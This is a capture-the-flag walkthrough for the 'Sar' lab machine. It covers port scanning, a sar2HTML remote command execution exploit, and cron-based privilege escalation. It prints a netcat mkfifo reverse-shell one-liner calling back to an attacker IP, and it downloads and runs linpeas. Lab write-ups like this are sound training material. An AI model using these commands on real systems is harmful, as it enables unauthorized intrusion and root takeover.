 # Sar Walkthrough
Hello Hackers!

This is f33z, and Today i will share with you my walkthrough on how i solved the machine Sar in the Prouving Ground machines, This is exactly in the play section

## Port Scanning
Port scanning is my way to know open ports in this machine, and nmap is our friend
```bash
nmap -p- -T4 -v [IP-ADDRESS]
```
this revealed that there are two open ports : 22, 80
to check which services are running in these open ports, we run nmap with -sC and -sV
```bash
nmap -p22,80 -sC -sV [IP-ADDRESS]
```
and As expected, this machine is running a web server in port 80, and a ssh in the port 22.

## Enumeration
Since The version of ssh doesnt seem old and also we dont know the credentials to use to login to SSH, then we will start with port 80
### port 80 - HTTP
The root directory of the website was the default page of apache server, since we know there is a robots.txt file as we saw in the nmap results 

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/e3ed9372-6738-430a-91ab-8317fdaf566f)

We got `sar2HTML` string and after searching we found that this is a CMS, this CMS is deployed in http://[IP-ADDRESS]/sar2HTML

## Initial Access
Since this is the version 3.2.1, it is vulnerable to [Remote Command Execution](https://www.exploit-db.com/exploits/47204)

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/8286fe94-3695-43ac-8f37-99da53df91bc)

After understanding the exploit, I applied it on our machine : and yes we got the output of `id` after clicking on the `host`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/d1ad8db8-c454-4bda-a9d5-630c6a6247d7)

To get an Initial Access to the webserver, we will be be getting a reverse shell from [this](https://www.revshells.com/) website, the reverse shell that i chose is `nc mkfifo` and i set the IP ADDRESS and the port

I used Burpsuite so i can encode my payload by clicking `CTRL+u`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/f4a1ff9b-8092-4770-9312-20ad71f04904)


I also set a listener on the same port 
```bash
nc -nlvp 9001
```
And YUUUP we got initial access as www-data user

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/2f4f4a71-00e7-47ad-9be8-bda57c06fad0)


## Privilege Escalation
To Escalate from www-data user privileges to higher privileges, I uplaoded the linpeas script to the machine
in my kali linux :
```bash
python3 -m http.server 80
```
in the Sar machine
```bash
cd /tmp
wget http://IP-ADDRESS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
After Going through the output of linpeas, i found that there is a cronjob running in this machine

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ed6a0a2c-c584-49b2-b98f-a7c2ca97cfd5)

After checking the content of `finally.sh` script, I found that it runs another script in the same directory called `write.sh`, we dont have write permissions in the file `finally.sh` but we have them in the file `write.sh`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/aa7379af-b888-40d1-a16f-3e79fe158b88)

So we can create a reverse shell as we did earlier for getting initial access and write that reverse shell into `write.sh`

in Sar machine : 
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.216 9002 >/tmp/f' >> write.sh
```
in the Kali linux machine :
```bash
nc -nlvp 9002
```

After waiting 5 min, because that's the time in the cron, to get more understanding of cronjob format :

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/7fa2fd43-568e-4da8-85ec-002c0f522fe1)

within 5 min we goot a response in the netcat listener!

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/e16647b7-e1b3-4e70-b7ac-7b97bf95b092)


and Guess what we are GROOT!!

![Uploading image.png…]()









